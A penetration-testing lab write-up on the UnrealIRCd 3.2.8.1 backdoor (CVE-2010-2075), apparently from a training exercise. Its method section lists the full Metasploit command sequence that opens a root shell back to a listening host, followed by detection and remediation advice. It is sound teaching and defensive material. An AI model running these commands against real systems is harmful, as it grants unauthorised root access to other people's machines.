

# UnrealIRCd 3.2.8.1 Backdoor (CVE-2010-2075)

## Objective
Determine if the IRC service is running a software-supply-chain-compromised version.

## Method
Reconnaissance (from the initial Nmap scan) flagged UnrealIRCd on port 6667.

Exploitation via Metasploit:
msfconsole
search unreal
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 192.168.56.102
set LHOST 192.168.56.101
run

## Evidence

## Findings
- UnrealIRCd 3.2.8.1's official distribution archive was compromised for several months in 2009-2010, with a backdoor inserted directly into the source
- Connecting and sending a trigger string over an otherwise normal IRC session yields a root shell
- This is a software supply-chain compromise, distinct from the vsftpd finding (same backdoor class, different vector) and the SSH finding (credential/config weakness, not a compromised binary)

## Detection Angle
The backdoor trigger is a specific string sent over a standard-looking IRC connection — not a brute-force or scanning pattern. Signature-based detection (e.g. Suricata/Snort rules for this specific CVE) would catch it; generic rate-based or login-attempt monitoring would not, since this appears as a single legitimate connection rather than anomalous traffic volume.

## Remediation
- Verify checksums of any downloaded software against vendor-published hashes before deployment
- Monitor for unexpected outbound/reverse connections following service installs
- Subscribe to CVE feeds for all deployed service versions
